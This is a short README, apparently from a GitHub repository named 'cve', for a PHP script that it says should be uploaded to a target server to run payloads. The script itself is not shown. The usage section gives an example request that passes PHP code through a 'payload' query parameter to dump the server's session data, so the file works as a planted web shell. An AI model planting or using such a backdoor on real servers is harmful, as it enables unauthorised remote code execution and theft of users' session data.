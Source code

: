 # cve
PHP script to run payloads, upload this file to target server

# Usages

- Upload to target server
- run payload: `http://server.com/cve.php?payload=echo var_dump($_SESSION);`
